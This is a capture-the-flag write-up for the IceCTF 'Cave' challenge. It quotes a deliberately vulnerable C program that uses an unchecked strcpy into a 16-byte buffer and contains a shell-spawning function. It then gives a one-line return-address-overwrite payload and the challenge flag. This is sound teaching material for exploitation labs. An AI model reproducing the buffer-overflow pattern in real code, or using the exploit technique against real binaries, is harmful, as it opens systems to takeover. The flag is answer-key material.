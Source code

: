 ```yaml
---
layout: writeup
title: 'Cave'
level:
difficulty:
points: 50
categories: [binary exploit]
tags: []
flag: IceCTF{i_dont_think_caveman_overflowed_buffers}
---
```

## Challenge

You stumbled upon a cave! I've heard some caves hold secrets.. can you
find the secrets hidden within its depths?

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    
    void shell() {
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        system("/bin/sh -i");
    }
    
    void message(char *input) {
        char buf[16];
        strcpy(buf, input);
    
        printf("The cave echoes.. %s\n", buf);
    }
    
    int main(int argc, char **argv) {
        if (argc > 1){
            message(argv[1]);
        } else {
            printf("Usage: ./shout <message>\n");
        }
        return 0;
    }
{: .language-c}

## Solution

Another buffer overflow challenge, this time we need to overwrite the
return address to call the `shell()` function.  
First we need to find out what that address should be, we can do this
with gdb's `info functions shell` or  
`objdump -d ./shout | grep shell` and find out that the address is
`0x0804850b`

So we need to overwrite the return address with this address, in little
endian order:

    ./shout `python -c "print('a'*28+'\x0b\x85\x04\x08')"`

this gives us a root shell and we can read the contents of `flag.txt` to
read our flag:

## Flag

    IceCTF{i_dont_think_caveman_overflowed_buffers}

